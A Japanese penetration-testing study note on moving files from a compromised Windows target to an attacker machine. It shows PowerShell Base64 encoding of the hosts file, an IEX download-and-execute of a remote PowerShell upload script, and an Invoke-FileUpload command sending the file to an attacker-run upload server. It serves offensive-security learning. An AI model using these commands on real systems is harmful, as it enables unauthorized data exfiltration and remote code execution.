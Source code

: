 SSHサーバーの起動
```shell-session
sudo systemctl start ssh
```

SSH リスニングポートのチェック
- sudoが必要かも？？
```shell-session
netstat -lnpt
```


## ターゲット側のファイルを攻撃者の端末にアップロード
- パスワードの解読、分析、流出などの状況もあり、ターゲットマシンから攻撃ホストにファイルをアップロードする必要がある
- ダウンロード操作に使用したのと同じ方法を使用できますが、アップロードに使用できる
- さまざまな方法でファイルのアップロードをどのように達成できるかを見てみる

### Windows
#### PowerShell Base64エンコード&デコード
##### ターゲット側
Base64エンコード
```powershell-session
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
MD5ハッシュの計算
```powershell-session
 Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
##### 攻撃者側
```shell-session
echo <Base64エンコードした値> | base64 -d > hosts
```
MD5ハッシュの計算と確認
```shell-session
 md5sum hosts 
```

#### PowerShell Web アップロード
##### ターゲット側
`Invoke-RestMethod`を使用してアップロード操作を実行するPowerShellスクリプト[PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)を使用できる
- スクリプトは、ファイルパスを指定するために使用する2つのパラメーター`-File`
- ファイルをアップロードするサーバーURLである`-Uri`を受け入れる
##### 攻撃者側
攻撃者側も受け取るサーバーが必要
```shell-session
pip3 install uploadserver
```
サーバーの起動
```shell-session
python3 -m uploadserver
```
##### ターゲット側
- Python アップロード サーバーにファイルをアップロードするための PowerShell スクリプト
```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
アップロード
```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
